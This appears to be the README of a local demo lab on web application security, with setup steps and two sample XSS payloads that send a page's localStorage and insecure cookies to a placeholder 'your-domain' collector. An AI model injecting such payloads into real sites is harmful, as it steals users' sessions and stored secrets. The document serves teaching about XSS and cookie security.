 # Web Application Security
The application runs on the "local.dev" domain, and you should define the domain on your "hosts" file.
```shell
127.0.0.1	local.dev
```
## Where is the Hosts File Located?
- Windows 10 - `C:\Windows\System32\drivers\etc\hosts`
- Linux - `/etc/hosts`
- Mac OS X - `/private/etc/hosts`

## How to start Nginx
Run the following command to run the Nginx. Docker compose is located in the web directory
```shell
docker-compose up
```

## Sample of XSS attack
Inject the sample code below to see how the XSS attack works

### Stealing local storage
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+encodeURIComponent(JSON.stringify(window.localStorage)) />
```

### Stealing insecure cookie
```html
<img src=x onerror=this.onerror=null;this.src='http://your-domain/gateway/api/cookie/collect.gif?cookie='+document.cookie />
```

## Reference

- [Web Application Security](https://www.nginx.com/resources/library/web-application-security/)
- [Mozilla - Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie)
- [SameSite cookies explained](https://web.dev/samesite-cookies-explained/)
- [Please Stop Using Local Storage](https://dev.to/rdegges/please-stop-using-local-storage-1i04)
- [OWASP - HTML5 Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#Local_Storage)
